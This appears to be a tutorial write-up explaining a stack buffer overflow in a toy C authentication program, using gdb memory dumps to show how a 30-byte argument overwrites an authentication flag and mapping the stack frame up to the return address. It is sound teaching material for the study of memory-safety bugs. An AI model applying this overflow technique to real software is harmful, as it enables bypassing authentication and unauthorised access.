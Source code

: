 'authentication.c' is so simple and looks like granting access only the case of
entering "brillig" or "outgrabe" as an argument.  
But by entering 30 times of 'A', we can exploit this program.  
Let's take a look why this happens.  
```
/*
 * compiled with -fno-stack-protector option
 * set breakpoint at strcpy(password_buffer, password);
 * (gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 */
 
(gdb) print &auth_flag  
$1 = (int *) 0x7fffffffdf3c  
(gdb) print &password_buffer  
$2 = (char (*)[16]) 0x7fffffffdf20  
```
By debugging the program, we can find the address of auth_flag is 28 bytes after than password_buffer.    
Since strcpy() does not check boundary, if we give more than 28 bytes(not too much)length of any string as argument, auth_flag will be set to nonzero.
```
/*
 * set breakpoint at return auth_flag;
 * (gdb) c  //abbreviation of continue
 */
(gdb) x/16xw password_buffer
0x7fffffffdf20 : 0x41414141 0x41414141  0x41414141  0x41414141
0x7fffffffdf30 : 0x41414141 0x41414141  0x41414141  0x00004141
0x7fffffffdf40 : 0xffffdf60 0x00007fff  0x5555481e  0x00005555
0x7fffffffdf50 : 0xffffe048 0x00007fff  0x00000000  0x00000002
(gdb) x/u &auth_flag
0x7fffffffdf3c: 16705 // 0x4141 in hex
```
Variable auth_flag is located at 0x7ffffffffdf3c~f(in bold) and it is overwritten to 16705.   
Since this machine is little endian, rightmost 41 is 0x7fffffffdf3c.    
So access will be granted, because any nonzero number is considered as true. This is basic concept of stack overflow.  
  
Here, we have to focus the value of 0x7fffffffdf48~f(in italic).  
```
(gdb) disass main
...
0x0000555555554819 <+72>:  call 0x55555555476a <check_authentication>
0x000055555555481e <+77>:  test eax,eax
...
```
_0x000055555555481e_ is return adress when function check_authentication is end.   
 
/*
 * set breakpoint at if(check_authenticatioin(argv[1])) {
 */
(gdb)x/32xw $rsp
0x7fffffffdf50: .....
0x7fffffffdf60: .....
/*
 * set breakpoint at return auth_flag;
 */
(gdb)x/20xw $rsp
0x7fffffffdf10: 0xffffdf78  0x00007fff  0xffffe3a4  0x00007fff
0x7fffffffdf20: 0x41414141  0x41414141  0x41414141  0x41414141
0x7fffffffdf30: 0x41414141  0x41414141  0x41414141  0x00004141
0x7fffffffdf40: 0xffffdf60  0x00007fff  0x5555481e  0x00005555
0x7fffffffdf50: 0xffffe048  0x00007fff  0x00000000  0x00000002
As you can see, 0x7fffffffdf10 ~ 0x7fffffffdf40 is allocated after the function check_authentication() called.
This is stackframe for check_authentication() in stack. We can separate this by 7 parts.

----------------------------------
0x7fffffffdf10: 0x00007fffffffdf78 -> Unknown(maybe padding)
----------------------------------
0x7fffffffdf18: 0x00007fffffffe3a4 -> Func argument (address of 'A' x 30)
----------------------------------
0x7fffffffdf20: 0x4141414141414141 -> local variable(password_buffer)
0x7fffffffdf28: 0x4141414141414141
----------------------------------
0x7fffffffdf30: 0x4141414141414141 -> Unknown(maybe padding)
0x7fffffffdf38: 0x41414141
----------------------------------
0x7fffffffdf3c: 0x00004141         -> Local variable(auth_flag)
----------------------------------
0x7fffffffdf40: 0x00007fffffffdf60 -> Saved frame pointer
----------------------------------
0x7fffffffdf48: 0x000055555555481e -> return address
----------------------------------
